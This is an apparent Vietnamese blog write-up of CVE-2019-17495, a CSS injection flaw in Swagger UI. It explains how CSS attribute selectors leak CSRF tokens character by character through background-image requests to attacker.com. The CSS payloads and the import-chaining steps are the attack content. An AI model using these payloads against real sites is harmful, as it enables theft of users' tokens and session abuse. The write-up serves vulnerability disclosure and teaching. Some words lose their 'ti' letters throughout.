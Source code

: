 ```yaml
---
title: CSS injecon Swagger UI -  CVE-2019-17495
date: '2019-10-30T10:02:25+07:00'
categories:
  - 1day
Archives: '2019'
autoThumbnailImage: false
thumbnailImagePosition: top
coverImage: ''
---
```

[English version](https://github.com/tarantula-team/CSS-injection-in-Swagger-UI)

## 1. Swagger UI

Swagger UI cho phép bất cứ ai có thể là cá nhân hay nhóm phát triển phần mềm tương tác, trực quan hoá API mà không cần thực hiện triển khai logic nào. Nó sẽ tự động tạo ra từ OpenAPI, với tài liệu này dễ dàng cài đặt
phía backend và sử dụng phía client. [[1]](#1)

## 2. CSS injecon
Trước khi đọc phần phân tích kỹ thuật, người đọc nên có kiến thức cơ bản về kỹ thuật RPO [[2]](#2) [[3]](#3). RPO có thể hiểu cơ bản là sử dụng CSS injection để khai thác client‑side trong trường hợp bị lỗi HTML injecon mà khai thác XSS không khả thi.

RPO thực chất là sử dụng CSS injecon [[4]](#4) để hoàn thành chuỗi khai thác (chain gadgets) đánh cắp token của người dùng dựa vào tính năng attribute Selectors [5].

Chúng ta sẽ sử dụng attribute selectors để định nghĩa ra những quy tắc nhằm phát hiện những thay đổi giá trị trong từng thuộc nh nhạy cảm trên trang html.

```
input[name=csrf][value^=a]{
 background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
 background-image: url(https://attacker.com/exfil/b);
}
...
input[name=csrf][value^=9]{
 background-image: url(https://attacker.com/exfil/9);
}
```

Trong ví dụ trên, nếu như form input có giá trị token bắt đầu là a thì sẽ tải hình ảnh từ máy chủ của kẻ tấn công có uri là /a , tương tự với b…z, 0…9, … Mỗi lần thu thập được 1 ký tự, chúng ta sẽ thực hiện lại cuộc tấn công với payload thay đổi đôi chút.

```
input[name=csrf][value^=aa]{
 background-image: url(https://attacker.com/exfil/ca);
}
input[name=csrf][value^=ab]{
 background-image: url(https://attacker.com/exfil/cb);
}
/* ... */
input[name=csrf][value^=a9]{
 background-image: url(https://attacker.com/exfil/c9);
}
```

Cứ như thế, kẻ tấn công sẽ thu thập được tất cả độ dài chuỗi token của nạn nhân.

Đây là điều kiện tiên quyết để chuỗi khai thác thành công:  

- CSS injection với độ dài payload đủ dài  
- Khả năng tái tạo lại payload mỗi lần thu thập được 1 ký tự  
- Có thể sử dụng được tài nguyên từ bên ngoài (bypass CSP)  

Chính vì payload bị thay đổi liên tục mà trong một số trường hợp không phải lúc nào cũng có thể thực hiện inject vào đối tượng, chính vì vậy cần sử dụng tính năng import trong CSS để giải quyết vấn đề này.

Trong CSS, có 2 cách để import file từ bên ngoài  
- Sử dụng tag link:  <link href="..." rel="stylesheet">  
- Sử dụng @import:  @import url(http://abc.com/base.css);

![abc](https://imgur.com/a/3IiUTTn)

Các bước khai thác phức tạp, không thể làm thủ công nên khuyến nghị sử dụng công cụ sic [[6]](#6)

## 3. CSS injecon to Swagger UI
Ý tưởng khai thác đến từ tài liệu do swagger cung cấp, theo như [[10]](#10)  
> We’ve observed that the ?url= parameter in SwaggerUI allows an aacker to override an otherwise hard‑coded schema file  
>
> The decision was made to put this in the public issue tracker because (a) we aren’t going to immediately fix this, and (b) the aack surface for this is significantly diminished by our effecve sanizaon efforts to deter XSS aacks in documents used as input  

Swagger cũng đã biết đến lỗ hổng tiềm ẩn này, tuy nhiên vì không thể khai thác XSS nên họ bỏ qua và không đề cao phát hiện này.

```
var url = window.location.search.match(/url=([^&]+)/);
// …
url = options.swaggerUrl || url
// …
var swaggerOptions = {
 spec: spec1,
 url: url,
 // …
}
var ui = SwaggerUIBundle(swaggerOptions)
```
Swagger UI cho phép người dùng nhúng json từ máy chủ khác mà không xác thực, điều này thể hiện rõ trong đoạn code javascript bên trên. Sau khi nhúng json qua tham số GET, trong file json đó nhúng thẻ <style> để tải file CSS từ máy chủ bên ngoài cùng lúc sử dụng kỹ thuật RPO gadgets ở trên ta dễ dàng thu được token của người dùng.

![](https://imgur.com/a/LTo7Yk7)
![](https://imgur.com/a/vv67tb3)

## Tham khảo
1. [Swagger UI | API Development Tools | Swagger](https://swagger.io/tools/swagger-ui/)
2. [Detecng and exploing path‑relave stylesheet import (PRSSI) vulnerabilies | PortSwigger Research](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities)
3. [RPO](http://www.thespanner.co.uk/2014/03/21/rpo/)
4. [Exfiltraon via CSS Injecon ‑ InfoSec Write‑ups ‑ Medium](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)
5. [Aribute selectors ‑ CSS: Cascading Style Sheets | MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
6. [GitHub ‑ d0nutptr/sic: A tool to perform Sequenal Import Chaining](https://github.com/d0nutptr/sic)
7. [Beer Exfiltraon via HTML Injecon ‑ d0nut ‑ Medium](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)
8. [2019‑s3_css_injecon_aacks.pdf](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf)
9. [RPO Gadgets](https://blog.innerht.ml/rpo-gadgets/)
10. [add an enableQueryConfig opon ∙ Issue #4872 ∙ swagger‑api/swagger‑ui ∙ GitHub](https://github.com/swagger-api/swagger-ui/issues/4872)
11. [English version](https://github.com/tarantula-team/CSS-injection-in-Swagger-UI)
